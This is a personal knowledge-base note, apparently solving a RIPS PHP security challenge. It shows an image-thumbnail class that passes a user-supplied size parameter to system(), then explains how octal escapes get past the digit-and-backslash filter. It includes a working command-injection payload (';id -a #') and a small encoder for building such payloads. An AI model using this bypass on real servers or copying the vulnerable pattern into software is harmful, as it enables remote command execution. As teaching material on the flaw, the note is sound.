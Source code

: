 :PROPERTIES:
:ID:        a8d4248e-bab6-47a5-b906-19002afc6609
:ROAM_REFS: https://twitter.com/ripstech/status/1126895171663089664
:END:
#+title: rips-49
#+filetags: :vcdb:php:

* Description

* Code
#+begin_src php
class ImageViewer {
    private $file;

    function __construct($file) {
        $this->file = "image/$file";
        $this->createThumbnail();
    }

    function createThumbnail() {
        $e = stripcslashes(
            preg_replace(
                '/[^0-9\\\]/',
                '',
                isset($_GET['size']) ? $_GET['size'] : '25'
            )
        );
        system("/usr/bin/convert {$this->file} --resize $e ./thumbs/{$this->file}");
    }

    function __toString() {
        return "<a href={$this->file}>
               <img src=./thumbs/{$this->file}></a>";
    }
}

echo (new ImageViewer("image.png"));

#+end_src

* Solution
#+begin_src php
class ImageViewer {
    private $file;

    function __construct($file) {
        $this->file = "image/$file";
        $this->createThumbnail();
    }

    function createThumbnail() {
             // 3) stripcslashes will remove single \
             //    but \\ will result in \
        $e = stripcslashes(
            preg_replace(
                // 2) numbers and \ are allowed
                '/[^0-9\\\]/',
                '',
                // 1) size is user input 
                isset($_GET['size']) ? $_GET['size'] : '25'
            )
        );
        // 4) $e can be used for command injection here when strings are encoded in ocatal, see example
        system("/usr/bin/convert {$this->file} --resize $e ./thumbs/{$this->file}");
    }
    function __toString() {
        return "<a href={$this->file}>
               <img src=./thumbs/{$this->file}></a>";
    }
}
echo (new ImageViewer("image.png"));


// example:
// var_dump(stripcslashes(preg_replace('/[^0-9\\\]/', '',"\\073\\151\\144\\040\\055\\141\\040\\043")));
// string(8) ";id -a #"


// payload = ";id -a #"
// p = []
// for c in payload:
//     p.append("%03d"%(int(oct(ord(c))[2:])))
// print("\\\\" + "\\\\".join(p))



#+end_src
